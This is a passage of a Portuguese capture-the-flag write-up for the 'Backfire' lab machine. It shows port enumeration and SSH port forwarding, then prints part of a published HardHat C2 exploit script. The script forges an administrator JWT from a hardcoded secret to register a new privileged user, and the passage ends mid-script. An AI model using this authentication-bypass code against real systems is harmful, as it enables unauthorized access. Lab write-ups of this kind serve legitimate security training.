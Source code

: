 Então listei as portas internas que estavam sendo escutadas.
```
netstat -ntlp
```
![[Pasted image 20250325093647.png]]

Há duas portas que não temos acesso do nosso host, `7096` e `5000`. Então podemos fazer ``Port Forward`` para essas duas portas para olharmos.
```sh
ssh ilya@10.10.11.49 -i ./backfire.key -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000
```

Então podemos acessar essas portas na nossa máquina local.
![[Pasted image 20250325094729.png]]

O hardhat c2 é um ``Framework C2`` para ``Red Teams``, após uma breve pesquisa, achei um post sobre algumas vulnerabilidades conhecidas. 
![[Pasted image 20250325095500.png]]

>[!info]
>Separe um tempo para ler esse [Post](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7), ele apresenta muita coisa legal.

O script fornecido irá criar um novo usuário `sth_pentest` com a senha `sth_pentest` e  com a função de ``Team Lead``. A porta ``5000`` é utilizada pelo script, então foi útil termos mandado ela também.

**harhatc2_exploit.py**
```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
```